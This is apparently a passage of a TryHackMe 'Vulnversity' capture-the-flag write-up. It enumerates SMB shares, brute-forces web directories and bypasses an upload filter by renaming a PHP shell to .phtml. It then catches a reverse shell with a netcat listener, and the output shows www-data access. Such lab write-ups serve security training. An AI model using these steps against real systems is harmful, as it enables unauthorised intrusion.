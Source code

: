 ```bash
$ smbclient -L vulnversity.thm         
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (vulnuniversity server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            VULNUNIVERSITY
```
it seems there is nothing interesting here

# HTTP (port 3333)
we found a website here\
<img width="834" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/223df16e-eea1-4d50-b6e4-e6e7c46de9f0">

we do a feroxbuster to find all the directory possible and we found 2 interesting directories : /internal and /internal/uploads
```bash
$ feroxbuster -u http://vulnversity.thm:3333/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
<img width="1332" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/eee5c1ff-9765-43a5-a9fe-e600b800450a">

So we have a web page with a upload form, so we try to upload a shell.php but there is a protection which doesn't allow .php file
<img width="385" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/c1f23282-ef05-4952-9810-a8b55e0f320b">

let's try to change the extension to an executable file but less known like .phtml so we have shell.phtml :
<img width="512" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/b8fd5673-af47-4438-8f5e-122132fd2cba">

Bingo ! we can now got our reverse shell with a nc listener on our attacking machine by visiting the url http://vulnversity:3333/internal/uploads/shell.phtml
```bash
$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.8.72.209] from (UNKNOWN) [10.10.21.231] 60630
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:48:47 up 35 min,  0 users,  load average: 0.00, 0.08, 0.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
